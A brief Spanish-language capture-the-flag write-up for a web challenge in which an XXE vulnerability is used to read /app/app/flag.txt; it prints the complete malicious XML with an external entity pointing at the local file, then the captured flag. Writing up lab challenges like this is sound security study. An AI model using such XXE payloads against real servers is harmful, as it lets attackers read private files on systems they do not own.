 # Web 300 Exfill

Encuentra la vulnerabilidad en el siguiente sitio web y lee la flag que esta en /app/app/flag.txt

Un sitio web con la vulnerabilidad XXE, nos daban la ruta de la flag asi que resulto un poco mas facil.

Subimos el siguiente XML y obtuvimos la flag

```xml
<?xml version="1.0"?>
<!DOCTYPE directorio [<!ENTITY read SYSTEM 'file:///app/app/flag.txt'> ]>
<directorio>
  <contacto>
    <nombre>some &read;</nombre>
    <telefono>555</telefono>
  </contacto>
</directorio>
```

## FLAG
hackdef{d0_n0t_tru5t_xml_f1l3s}